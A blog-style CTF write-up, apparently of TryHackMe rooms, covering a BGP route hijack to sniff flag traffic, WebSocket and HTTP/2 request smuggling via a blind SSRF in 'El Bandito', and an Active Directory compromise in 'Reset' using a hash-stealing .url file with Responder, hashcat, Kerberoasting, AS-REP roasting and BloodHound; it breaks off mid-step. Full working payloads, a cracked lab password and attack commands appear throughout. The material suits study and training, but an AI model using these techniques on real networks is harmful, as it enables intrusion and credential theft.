    router1.ctx.ctf# show bgp neighbors
    BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
      BGP version 4, remote router ID 1.1.1.2
      ...
    	Local host: 172.16.12.101, Local port: 43972
    	Foreign host: 172.16.12.102, Foreign port: 179
    	Nexthop: 172.16.12.101
    
    
    BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
      BGP version 4, remote router ID 1.1.1.3
      ...
    	Local host: 172.16.31.101, Local port: 179
    	Foreign host: 172.16.31.103, Foreign port: 37018
    	Nexthop: 172.16.31.101

Here I made the assumption (confirmed reading other write-up), that the traffic we are interested is flowing between AS 60002 and AS 60003. We also know, inspecting the routing table, the related networks interfaces:
- eth0: 172.16.2.0/24 is directed to 172.16.12.102 (AS 60002)
- eth2: 172.16.3.0/24 is directed to 172.16.31.103 (AS 60003)

So here we need just to add these two networks to the BGP AS 60001, the configuration of our router, with a smaller range (/25) than the current (/24), so they will be set as preferred path:

    vtysh
    ... 
    router1.ctx.ctf# configure terminal 
    configure terminal 
    router1.ctx.ctf# router1.ctx.ctf(config)# router bgp 60001
    router bgp 60001
    router1.ctx.ctf(config-router)# network 172.16.2.0/25
    network 172.16.2.0/24
    router1.ctx.ctf(config-router)# network 172.16.3.0/25
    network 172.16.3.0/24
    router1.ctx.ctf(config-router)# exit
    exit
    router1.ctx.ctf(config)# exit
    exit
    router1.ctx.ctf# write
    write
    Building Configuration...
    Can't backup old configuration file /etc/quagga/zebra.conf.sav.
    Can't backup old configuration file /etc/quagga/bgpd.conf.sav.
    [OK]
    
OK??? That's not OK at all, since the configuration file are not regenerated! I found the problem reported in the following [blog](https://geekinlinux.blogspot.com/2013/09/cant-backup-old-configuration-file.html).
So we need to give the adeguate permission to the configuration folder:

    chmod -R 777  /etc/quagga/

Then repeat the configuration steps above and that should be ok:

    router1.ctx.ctf# write
    write
    Building Configuration...
    Configuration saved to /etc/quagga/zebra.conf
    Configuration saved to /etc/quagga/bgpd.conf
    [OK] 

Then clear up the routes and re-advertise for the new networks:
    
    router1.ctx.ctf# clear ip bgp * out
    clear ip bgp * out
    router1.ctx.ctf# exit


Check the configuration's changes:

    cat /etc/quagga/bgpd.conf
    ...
    !
     router bgp 60001
     bgp router-id 1.1.1.1
     network 172.16.1.0/24
     network 172.16.2.0/25
     network 172.16.3.0/25
     neighbor 172.16.12.102 remote-as 60002
     neighbor 172.16.12.102 weight 100
     neighbor 172.16.12.102 soft-reconfiguration inbound
     neighbor 172.16.12.102 prefix-list LocalNet in
     neighbor 172.16.31.103 remote-as 60003
     neighbor 172.16.31.103 weight 100
     neighbor 172.16.31.103 soft-reconfiguration inbound
     neighbor 172.16.31.103 prefix-list LocalNet in
    !
    ...

Now sniffing on eth0 we can get the UDP flag:

    tcpdump -i eth0 -a
    11:45:45.623143 IP 172.16.3.10.33699 > 172.16.2.10.4444: UDP, length 44
    E..H..@.>..e...
    ...
    ...\.4]z{FLAG:UDP:3bb271d020df6cbe599a46d20e9fcb3c}

But no sign of the TCP flag, I mean there's should be a problem with the format, since I got a part of it:

    12:27:04.150084 IP 172.16.3.10.5555 > 172.16.2.10.45908: Flags [FP.], seq 18:45, ack 1, win 227, options [nop,nop,TS val 293674 ecr 293674], length 27
    E..O8.@.>......
    ...
    ...T[_C.........]v.....
    ..{*..{*8d6b2bd40af6581942fcf483e}

### The end has no end
The challenge is not completely close, since I did not get the first and the last flag (the last one not entirely), but I'd say that the mission was accomplished, more or less... :)

## El Bandito
I was lucky enough to read this [great post](https://github.com/0ang3el/websocket-smuggle?tab=readme-ov-file#22-scenario-2) just some days before facing El Bandito. The challange, as the description says, involvs smuggling. As we will see Websocket smuggling.
Before starting I invite you to read the mentioned post, since treats exactly El Bandito smuggling scenario. I've already revealed too much!

### Services scan

    rustscan -b 900 -a 10.10.146.64
    ...
    Open 10.10.146.64:22
    Open 10.10.146.64:80
    Open 10.10.146.64:631
    Open 10.10.146.64:8080

### Fingerprint services

    nmap -n -v -sVC -Pn -p 22,80,631,8080 10.10.146.64
    ...
    80/tcp   open  ssl/http El Bandito Server
    |_http-server-header: El Bandito Server
    ...
    | fingerprint-strings: 
    |   GetRequest: 
    |     HTTP/1.1 200 OK
    |     Date: Thu, 30 May 2024 12:15:53 GMT
    |     Content-Type: text/html; charset=utf-8
    ...
    |     nothing to see <script src='/static/messages.js'></script>
    ...
    631/tcp  open  ipp      CUPS 2.4
    |_http-server-header: CUPS/2.4 IPP/2.1
    8080/tcp open  http    nginx
    |_http-favicon: Spring Java Framework


We found a web app that strange enough run https on port 80, a CUP server (that's not present any known vulnerabilities) and NGIX server with Spring installed. Let's visit the two web app

    https://10.10.103.104:80
    ...
    nothing to see
Remember from the scan that we found a script included in the page, let's see it:

    view-source:https://10.10.103.104:80/static/messages.js

That reveals 2 API endpoints:

    getMessages
    send_message
send_message accept POST request, indeed visiting:

    https://10.10.103.104:80/getMessages

it presens a login form. Submitting some fake values does not reveals nothing interesting, so let's proceed to inspect the app hosted on NGIX. Browsing I found an interesting web page:

    http://10.10.103.104:8080/services.html
    
    Service Status
    Below, you'll find the current status details for each component within the Bandit Token ecosystem.
    
    http://bandito.websocket.thm: OFFLINE
    http://bandito.public.thm: ONLINE

So it seems that there is a websocket endpoint that is currently offline and the public one online. Inspecting the source of the page reveals another endpoint:

     ...
     const response = await fetch(`/isOnline?url=${serviceUrl}`, {
     ...

Visiting the URL we got the following error

    http://10.10.103.104:8080/isOnline
    ....
    This application has no explicit mapping for /error, so you are seeing this as a fallback.
    ...
    There was an unexpected error (type=Bad Request, status=400).
Let's try to inject a command on the url parameter:

    http://10.10.103.104:8080/isOnline?url=id

We got a server error (500) this time. So something definitely happens on the server. Let's try a payload with a valid payload:

    http://10.10.103.104:8080/isOnline?url=https://10.10.103.104:80

This time we got a certificate error meaning that the server has performed a request to the server passed in the url parameter:
    
    ...PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target
    
Tryng to reach an external URL and we get a time out:

    http://10.10.103.104:8080/isOnline?url=https://www.google.it
    ...
    connect timed out

So we cannot exit on the web, let's try to reach our python server

    http://10.10.103.104:8080/isOnline?url=http://10.10.237.116:8000

This time we get an empty page with no error, so the request is ok (200) and we can see the request performed to our web service

    10.10.103.104 - - [30/May/2024 15:08:59] "GET / HTTP/1.1" 200 -
That's fine, but trying to get a file of our web server we can see that the content is not fetched in the response, so we can presume that the endpoint is vulnerable to blind SSRF, that generally is not so easy to get something to exploit.

### Analyze the findings
So at this point without prior knowledge of the El Bandito scenario I'd say that I'm quite blocked. We found
1. Blind SSRF vulnerability
2. A java app that uses Spring Framework (that I don't know at all)
3. Another strange app that respond on port 80 in https, with a login form

So I decided to proceed to fuzzing the Spring app endpoints available. I found the list [here](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html) and I managed to retrive the following wordlist:

    cat > spring_ep.txt<< EOF
        auditevents
        beans
        caches
        conditions
        configprops
        env
        flyway
        health
        httpexchanges
        info
        integrationgraph
        loggers
        liquibase
        metrics
        mappings
        quartz
        scheduledtasks
        sessions
        shutdown
        startup
        threaddump
        heapdump
        logfile
        prometheus
    EOF

Then I use the list to fuzz:
    
    gobuster dir -u http://10.10.103.104:8080/ -w spring_ep.txt 
    ...
    /env (Status: 403)
    /beans (Status: 403)
    /metrics (Status: 403)
    /info (Status: 200)
    /health (Status: 200)
    /mappings (Status: 200)
    /configprops (Status: 200)
    /heapdump (Status: 200)
    ...

Let's visit the accessible endpoints (200). I found that mappings endpoint reveleas useful informations about others endpoints:

    	
        /webjars/**	
        /**	
        /**/favicon.ico	
        {[/admin-creds],methods=[GET]}	
        {[/admin-flag],methods=[GET]}	
        {[/token]}	
        {[/isOnline]}	
        {[/error],produces=[text/html]}
        ...
Especially admin-creds and admin-creds sounds really promising. Of course try to access them directly result in 403 (forbidden). We got this error from NGIX.
** Note: El Bandito IP will change from now on.
Ok, now with information we have we can try to think to a possible attack vector to bypass ngix, that is the smuggling technique as illustrated at beginning of this post. To recall here we have trick ngix that a websocket connection between us (attacker) and the backend server (Sping app) is going on, indeed we will perform http request. To do so we have to:
1. Send a request to the backend server to upgrate to websocket (WS)
2. NGIX proxy intercept the request and forward it to the server
3. The forwarded request to the backend server: here we exploit the blind SSRF vulnerability to get an upgrate response (101) from a server we control
4. The upgrade positive response is send back to us through ngix
5. ngix verify that the upgrade is completed (101) and permits direct communication between us (the attacker) and the backend server
6. Doing that we can bypass the policy restriction implemented by ngix that prevent us to access the admin-* endpoints

Sounds really complicated,actually it is not. First of all we have to check if we can send upgraded request to the backend through the proxy. If we send the following request:

    GET /isOnline HTTP/1.1
    Host: 10.10.227.168:8080
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Sec-WebSocket-Version: 13
    Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
    Connection: keep-alive, Upgrade
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade: websocket

If you want to know more about websocket headers read [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Protocol_upgrade_mechanism)
We got a bad request error that warns us that the url parameter is mandatory
    
    {"timestamp":1717102030749,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required String parameter 'url' is not present","path":"/isOnline"}

Let's now start our controlled server that will respond, using the SSRF vulnerability, with a positive upgrade.
Follows the code to start the server on the attacker machine:

    import sys
    from http.server import HTTPServer, BaseHTTPRequestHandler

    class MyServer(BaseHTTPRequestHandler):
       def do_GET(self):
           self.protocol_version = "HTTP/1.1"
           self.send_response(101)
           self.end_headers()
    
    print("Server listen o port 80...");
    HTTPServer(("", 80), MyServer).serve_forever()

Save the file as myserver.py and execute it. Test with curl

    curl http://10.9.0.169 -v
    *   Trying 10.9.0.169:80...
    * Connected to 10.9.0.169 (10.9.0.169) port 80
    ...
    * Request completely sent off
    < HTTP/1.1 101 Switching Protocols
    < Server: BaseHTTP/0.6 Python/3.11.9
    ...
    curl: (52) Empty reply from server

Checking the server console we got:

    python myserver.py
    Server listen o port 80...
    10.9.0.169 - - [30/May/2024 22:31:23] "GET / HTTP/1.1" 101 -

Since our web server is working we can try to inject the url parameter in the request to see what happens:

    GET /isOnline?url=http://10.9.0.169 HTTP/1.1
    ...
We will see the request to our webserver:

    10.10.227.168 - - [30/May/2024 22:56:24] "GET / HTTP/1.1" 101 -

Then in Burp:

    HTTP/1.1 101 
    Server: nginx
    Date: Thu, 30 May 2024 20:56:22 GMT
    Connection: upgrade
    X-Application-Context: application:8081

So we can see that ngix has validated (and upgraded) our request. Now we can try to chain another request to the admin stuff to see if we can bypass ngix policy.
(If you use Burp remember to disable Update content-length and to set 2 carriage returns at the end of the chained request). So the final payload will be:
    
    GET /isOnline?url=http://10.9.0.169 HTTP/1.1
    Host: 10.10.227.168:8080
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Sec-WebSocket-Version: 13
    Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
    Connection: keep-alive, Upgrade
    Pragma: no-cache
    Cache-Control: no-cache
    Upgrade: websocket
        
    GET /admin-flag HTTP/1.1
    Host: 10.10.227.168:8080

    
    GET /admin-creds HTTP/1.1
    Host: 10.10.227.168:8080

    
We will get the flag and the credentials back! At this point, of course, I proceeded to login to the previous found login page.
Once logged in we land on a chat system. We can read that Jack is warning us that the time to escape has come, sending some messages to Jack we didn't get any answer. Maybe is too late :).
Let's proceed to analyze the request generated sending message in Burp. We can see that the protocol is HTTP/2 and that a proxy should be in place since we got the Age header in the back response, knowing that the challenge is on smuggling, the logical next step is to try a downgrade to HTTP/1, since is not possible to smuggle a HTTP/2 request abusing CL or TE. I suggest to read this great [resource](https://portswigger.net/research/http2) written by the mythic James Kettle. 
In Burp repeater disable automatic upgrade content length and in the inspector column, open the Request attributes section and change the protocol to HTTP/1. Send the request again:

    POST /send_message HTTP/1.1
    Host: 10.10.27.141:80
    Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Zlslsw.qrosNPxrgZVhoRtJU50693s3qLA
    ...
    Te: trailers
    
    data=Jack, ci sei?

And we got a response:

    HTTP/1.1 200 OK
    ...
    Age: 0
    Server: El Bandito Server
    ...
    Connection: keep-alive
    
    {"status":"Message received and stored successfully"}
    
So it seems possible to downgrade the request, in this case we can try different [techiniques](https://portswigger.net/web-security/request-smuggling/advanced) to try to exploit this scenario. I started with H2.CL (in repeater remember to switch back to HTTP/2 and disable automatic content length update).
At this point I was not able to proceed any further, so I took a look at the write up. The idea about how to get the finali flag is really interesting and I suggest to read these write up eventually. I will report only the payload I used to get the second flag:

    POST / HTTP/2
    Host: 10.10.206.238:80
    Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Zlyizw.BeLtv-KQblTOSedQR5YeRlKVS88
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Content-Length: 0
    
    POST /send_message HTTP/1.1
    Host: 10.10.206.238:80
    Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Zlyizw.BeLtv-KQblTOSedQR5YeRlKVS88
    Content-Length: 800
    Content-Type: application/x-www-form-urlencoded
    
    data=

Some notes in case the payload will not work:
1. remember the double carriage return after data=
2. you must get the 503 response from Varnish proxy that indicates that the payload worked:

        HTTP/2 503 Service Unavailable
        ....
       Retry-After: 5
       Age: 0
       ... 
        <title>503 Backend fetch failed</title>
       ...
3. After you get the error, to get the flag, wait 30 seconds and send the reguqest to read the messages:

       GET /getMessages HTTP/2
4. You should try a couple of time to succeed, in case after 3 attempts you didn't get the flag try to restart El Bandito, in my case solved the problem.
5. The flag has an ecoded character that you need to decode before to submit the flag.     

## Reset

Services discovery

    rustscan -b 900 -a 10.10.58.22 
    Open 10.10.58.22:53
    Open 10.10.58.22:88
    Open 10.10.58.22:135
    Open 10.10.58.22:139
    Open 10.10.58.22:389
    Open 10.10.58.22:445
    Open 10.10.58.22:464
    Open 10.10.58.22:593
    Open 10.10.58.22:636
    Open 10.10.58.22:3268
    Open 10.10.58.22:3269
    Open 10.10.58.22:3389
    Open 10.10.58.22:5985
    Open 10.10.58.22:7680
    Open 10.10.58.22:9389
    Open 10.10.58.22:49669
    Open 10.10.58.22:49670
    Open 10.10.58.22:49671
    Open 10.10.58.22:49674
    Open 10.10.58.22:49675
    Open 10.10.58.22:49698
    Open 10.10.58.22:49707

    

Quite a lot of services are active. Starting to fingerprint some services:

    nmap -p 53,389,3389,445 -Pn 10.10.58.22 -sVC -v
    ...
    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: thm.corp0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    |_ssl-date: 2024-06-21T15:25:37+00:00; +48s from scanner time.
    | rdp-ntlm-info: 
    |   Target_Name: THM
    |   NetBIOS_Domain_Name: THM
    |   NetBIOS_Computer_Name: HAYSTACK
    |   DNS_Domain_Name: thm.corp
    |   DNS_Computer_Name: HayStack.thm.corp
    |   DNS_Tree_Name: thm.corp
    |   Product_Version: 10.0.17763
    |_  System_Time: 2024-06-21T15:24:57+00:00
    | ssl-cert: Subject: commonName=HayStack.thm.corp
    | Issuer: commonName=HayStack.thm.corp
    | Public Key type: rsa
    | Public Key bits: 2048
    | Signature Algorithm: sha256WithRSAEncryption
    | Not valid before: 2024-01-25T21:01:31
    | Not valid after:  2024-07-26T21:01:31
    | MD5:   1593:b46f:8770:a73a:9649:f3ec:e9ad:c968
    |_SHA-1: 9d45:4568:8ee5:2758:e3cc:26ff:e0ca:23db:5ae6:017e
    Service Info: Host: HAYSTACK; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: 48s, deviation: 0s, median: 47s
    | smb2-time: 
    |   date: 2024-06-21T15:25:01
    |_  start_date: N/A

From the above result we can see that SMB ise enabled and required, so we can't perform ntlm relay attack. The machine FQDN is HayStack.thm.corp, the domain is thm.corp. I proceed enumerating shared folders on the system:

    smbclient -L \\thm.corp -I 10.10.182.100 -N       

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 


Lets check the permission we have as anonymous user:

    crackmapexec smb 10.10.182.100 --shares -u 'anonymous' -p ''
    SMB         10.10.182.100   445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
    SMB         10.10.182.100   445    HAYSTACK         [+] thm.corp\anonymous: 
    SMB         10.10.182.100   445    HAYSTACK         [+] Enumerated shares
    SMB         10.10.182.100   445    HAYSTACK         Share           Permissions     Remark
    SMB         10.10.182.100   445    HAYSTACK         -----           -----------     ------
    SMB         10.10.182.100   445    HAYSTACK         ADMIN$                          Remote Admin
    SMB         10.10.182.100   445    HAYSTACK         C$                              Default share
    SMB         10.10.182.100   445    HAYSTACK         Data            READ,WRITE      
    SMB         10.10.182.100   445    HAYSTACK         IPC$            READ            Remote IPC
    SMB         10.10.182.100   445    HAYSTACK         NETLOGON                        Logon server share 
    SMB         10.10.182.100   445    HAYSTACK         SYSVOL                          Logon server share 

So as anonymous user we have write permission on Data share. 
Let's connect to the share:

    smbclient  \\\\10.10.182.100\\Data                 
    Password for [WORKGROUP\zinz]:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Mon Jun 24 13:58:05 2024
      ..                                  D        0  Mon Jun 24 13:58:05 2024
      onboarding                          D        0  Mon Jun 24 14:01:05 2024
    
                    7863807 blocks of size 4096. 3001878 blocks available
    smb: \> cd onboarding\
    smb: \onboarding\> ls
      .                                   D        0  Mon Jun 24 14:01:35 2024
      ..                                  D        0  Mon Jun 24 14:01:35 2024
      5gwczexb.4pb.txt                    A      521  Mon Aug 21 20:21:59 2023
      npm1cdb1.zwr.pdf                    A  4700896  Mon Jul 17 10:11:53 2023
      obbfhlhw.wg4.pdf                    A  3032659  Mon Jul 17 10:12:09 2023
    
                    7863807 blocks of size 4096. 3001861 blocks available
If we wait some time we can notice that the 3 files names are changed:

    smb: \onboarding\> ls
      .                                   D        0  Mon Jun 24 14:02:35 2024
      ..                                  D        0  Mon Jun 24 14:02:35 2024
      4bt5agvy.xc0.txt                    A      521  Mon Aug 21 20:21:59 2023
      dgx3zcsl.kce.pdf                    A  4700896  Mon Jul 17 10:11:53 2023
      yr1ezwhu.khh.pdf                    A  3032659  Mon Jul 17 10:12:09 2023

I took a quick look to the files but they dont' reveal any useful information. Since there is an active traffic on this share, we can try to steal NTLM hashes for internal users. A very good resource about this type of attacks can be found [here](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes). For this scenario I opted for the following payload:

    cat report_share.url
    [InternetShortcut]
    URL=file://10.9.1.153/reports2024

Then I uploaded the file to the Data share (<b>note that the server IP is changed from now on</b>):

    smb: \onboarding\> put report_share.url 
    putting file report_share.url as \onboarding\report_share.url (0.2 kb/s) (average 0.2 kb/s)
    smb: \onboarding\> ls
      .                                   D        0  Tue Jun 25 10:21:41 2024
      ..                                  D        0  Tue Jun 25 10:21:41 2024
      gv0j0izr.ehb.pdf                    A  4700896  Mon Jul 17 10:11:53 2023
      info03yj.k4g.pdf                    A  3032659  Mon Jul 17 10:12:09 2023
      report_share.url                    A       53  Tue Jun 25 10:21:39 2024
      w14txhwv.3dx.txt                    A      521  Mon Aug 21 20:21:59 2023

Then I started responder, waiting to get some hashes...

    sudo responder -I tun0 -v

But nothing came, so I guessed that this payload doesn't work, since a user has to open the .url file in order to trigger the exploit. Then I decided to try with the follow payload, using .ico approach:


    cat google.url           
    [InternetShortcut]
    URL=https://www.google.com
    IconIndex=0
    IconFile=\\10.9.1.153\google.ico

This payload is executed when a user just browses the folder containing the URL file (Data/onboarding). Note that this file is flagged as malicious by Defender on Win 11 Pro machine. Anyway uploading the file to the server share, after a while we can get the NTLM hashed for a user:

    smb: \onboarding\> put google.url 
    putting file google.url as \onboarding\google.url (0.4 kb/s) (average 0.3 kb/s)

In responder console:

    [SMB] NTLMv2-SSP Client   : 10.10.212.38
    [SMB] NTLMv2-SSP Username : THM\AUTOMATE
    [SMB] NTLMv2-SSP Hash     : AUTOMATE::THM:4f490ae6a6420c63...000000


Then we can try to reverse the hashed password using hashcat:

    hashcat -m 5600 -a 0 automate_hash /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting
    ...
    AUTOMATE::THM:4f490ae6a6420c63:...00000000:Pxxxxxxxxx
                                                          
    Session..........: hashcat
    Status...........: Cracked

I tried to login through RDP but it failed, probably the user is a service account and cannot use terminal service. Since during the services discovery we found that the WinRMI port is open (5985), we can try to use this service to get a shell on the server:

    evil-winrm -i 10.10.212.38 -u automate  
    Enter Password: 
                                            
    Evil-WinRM shell v3.5
    ...
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\automate\Documents> 

Through the shell we can collect the user flag located in the desktop. Then I tried to search for common vulnerabilities to try to escalate my privilege but I found nothing, then I tried with kerberosting:

    impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.10.212.38 'thm.corp/automate:Pxxxxxxx'
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra
    
    ServicePrincipalName  Name               MemberOf                                                      PasswordLastSet             LastLogon                   Delegation  
    --------------------  -----------------  ------------------------------------------------------------  --------------------------  --------------------------  -----------
    CIFS/BDEWVIR1000000   MARCELINO_BALLARD  CN=AN-173-distlist1,OU=GOO,OU=People,DC=thm,DC=corp           2023-06-12 18:05:55.645235  <never>                                 
    CIFS/HAYSTACK         3811465497SA       CN=Remote Management Users,CN=Builtin,DC=thm,DC=corp          2023-06-12 18:05:58.082696  <never>                                 
    MSSQL/BDEWVIR1000000  MARION_CLAY        CN=Protected Users,CN=Users,DC=thm,DC=corp                    2023-06-12 18:05:58.379575  <never>                                 
    ftp/HAYSTACK          MARION_CLAY        CN=Protected Users,CN=Users,DC=thm,DC=corp                    2023-06-12 18:05:58.379575  <never>                                 
    https/HAYSTACK        FANNY_ALLISON      CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 18:05:55.067142  <never>                                 
    kafka/HAYSTACK        FANNY_ALLISON      CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 18:05:55.067142  <never>                                 
    kafka/BDEWVIR1000000  CYRUS_WHITEHEAD    CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 18:05:54.332753  <never>                                 
    MSSQL/HAYSTACK        TRACY_CARVER       CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 18:05:53.879633  <never>                                 
    POP3/BDEWVIR1000000   DEANNE_WASHINGTON  CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-06-12 18:05:54.488998  <never>                                 
    POP3/HAYSTACK         DARLA_WINTERS      CN=Domain Computers,CN=Users,DC=thm,DC=corp                   2023-07-18 18:21:44.443061  2023-07-18 18:28:56.952295  constrained 

So we collected 8 unique hashes that we can try to reverse and one of those, darla winters, has constrained delegation set. It means that if we get her password then we can try to impersonate the administrator. More information on this attack can be read [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation). So we have juicy information here. Using hashcat:

    hashcat.exe -a 0 -m 13100 kerberoastables C:\Users\filippo\wordlist\rockyou.txt
    ...
    Approaching final keyspace - workload adjusted.
    Session..........: hashcat
    Status...........: Exhausted
    ....
    Recovered........: 0/8 (0.00%) Digests (total), 0/8 (0.00%) Digests (new), 0/8 (0.00%) Salts

Pity, no hashes were reversed. At this point, even if is quite rare to date to find such configuration, I checked if there are any AS-REP roasting users. Just to recall this technique allows retrieving password hashes for users that have: <i>Do not require Kerberos preauthentication</i> property selected. Remoting attack execution:

    mpacket-GetNPUsers -dc-ip 10.10.191.151 -ts  'thm.corp/automate:Pxxxxx'
    ...
    Name           MemberOf                                                      PasswordLastSet             LastLogon                   UAC      
    -------------  ------------------------------------------------------------  --------------------------  --------------------------  --------
    ERNESTO_SILVA  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-07-18 18:21:44.224354  <never>                     0x410200 
    TABATHA_BRITT  CN=Gu-gerardway-distlist1,OU=AWS,OU=Stage,DC=thm,DC=corp      2023-08-21 22:32:59.571306  2023-08-21 22:32:05.792734  0x410200 
    LEANN_LONG     CN=CH-ecu-distlist1,OU=Groups,OU=OGC,OU=Stage,DC=thm,DC=corp  2023-07-18 18:21:44.161807  2023-06-16 14:16:11.147334  0x410200 

We got 3 users. Then we can request a TGT for the users to try to reverse it using hashcat:

    impacket-GetNPUsers -dc-ip 10.10.191.151 -ts  'thm.corp/automate:Pxxxxxx'  -request -format hashcat -outputfile as-rep_kbr

Then we can proceed to try to reverse the hashes (note that her I run hashcat on a Kali box):

    sudo hashcat -m 18200 -a 0 as-rep_kbr /usr/share/wordlists/rockyou.txt 
    ...
    Session..........: hashcat
    Status...........: Exhausted
    ...
    Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts

We were able to get the password for the user <b>TABATHA_BRITT@THM.CORP:</b>. With this account I tried to RDP into the server. We can signin as a temporary profiles, it means that every saved file will be lost on log-out. 
Let's inspect our privileges:

    whoami /priv
    net user tabatha_britt /domain
    
No useful information emerged. Check if Defender is running:

    PS C:\Users\TEMP.THM> Get-MpComputerStatus
    AMEngineVersion                  : 1.1.23110.2
    AMProductVersion                 : 4.18.23110.3
    AMRunningMode                    : Normal
    AMServiceEnabled                 : True
    AMServiceVersion                 : 4.18.23110.3
    AntispywareEnabled               : True
    AntispywareSignatureAge          : 151
    AntispywareSignatureLastUpdated  : 1/26/2024 2:26:47 PM
    AntispywareSignatureVersion      : 1.403.2749.0
    AntivirusEnabled                 : True
    AntivirusSignatureAge            : 151
    AntivirusSignatureLastUpdated    : 1/26/2024 2:26:46 PM
    AntivirusSignatureVersion        : 1.403.2749.0
    BehaviorMonitorEnabled           : True
    ....    

AMSI is enabled too. I managed to run [PrivescCheck](https://github.com/itm4n/PrivescCheck) without being detected but nothing really interesting emerged. We can perform an Active directory assesment using blood-hound. In this scenario the best approach is to try a remote injection using [bloodhound.py](https://www.kali.org/tools/bloodhound.py). First I run:

    bloodhound-python -dc 10.10.255.123 -d thm.corp -u 'tabatha_britt' -p 'marlboro(1985)' -c All --zip
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    ERROR: The specified domain controller 10.10.255.123 looks like an IP address, but requires a hostname (FQDN).
    Use the -ns flag to specify a DNS server IP if the hostname does not resolve on your default nameserver.

So we have to correct the command as suggested:

    bloodhound-python -ns 10.10.255.123 -d thm.corp -u 'tabatha_britt' -p 'marlboro(1985)' -c All --zip
    INFO: Found AD domain: thm.corp
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (haystack.thm.corp:88)] [Errno -2] Name or service not known
    INFO: Connecting to LDAP server: haystack.thm.corp
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to GC LDAP server: haystack.thm.corp
    INFO: Connecting to LDAP server: haystack.thm.corp
    INFO: Found 42 users
    INFO: Found 55 groups
    INFO: Found 3 gpos
    INFO: Found 222 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: HayStack.thm.corp
    INFO: Done in 00M 43S
    INFO: Compressing output into 20240626163201_bloodhound.zip


Now we can feed bloodhound with the generated file. To start bloodhound on kali follows the [official installation page](https://www.kali.org/tools/bloodhound/). First start neo4j:

    sudo neo4j console
    ...
    2024-06-26 14:48:37.732+0000 INFO  Started.

Then lunch the cosole:

    bloodhound

You can proceed to upload the file (4th button on the right bar). Once the file is uploaded you can use the Analysis tab to perform some queries: 

    Analysis --> Kerberos Interaction --> Find AS-REP Roastable Users (DontReqPreAuth)
    
In the graph panel select tabatha_britt (the user we control), then we can run some other analysis on this object. An interesting one is:

    Node Info --> OUTBOUND OBJECT CONTROL --> Transitive Object Control

Click the arrow icon to run the query. In the resulting graph you can notice that there is an interesting path that can lead us to control darla_winters account:

    [tabatha_britt] --(GenricAll) --> [shawna_bray] -- (ForceChangePassword) --> [cruz_hall] -- (GenericWrite) --> [darla_winters]

We can abuse these delegations since:
- GenericAll: full rights to the object, including reset user's password
- ForceChangePassword: we can change the user password
- GenericWrite: combination of write permissions, including WriteProperty. Again that implies we can change the user password.

Remember that darla user has Kerberos Constrained Delegation (KDC) enabled as seen before, so if we control this account we are administrator. In Bloodhound graph view, if we select the objet darla_winters, in the node properties we can see:

    Allowed To Delegate	cifs/HayStack.thm.corp/thm.corp:
        cifs/HayStack.thm.corp
        cifs/HAYSTACK
        cifs/HayStack.thm.corp/THM
        cifs/HAYSTACK/THM

<b>Note that from now on the IP of the Haystack server is changed again</b>. 

Let's proceed to change the password for the users. For these tasks I used [bloodyAD](https://github.com/CravateRouge/bloodyAD/wiki/Installation)
- As tabatha change the password for shawna:

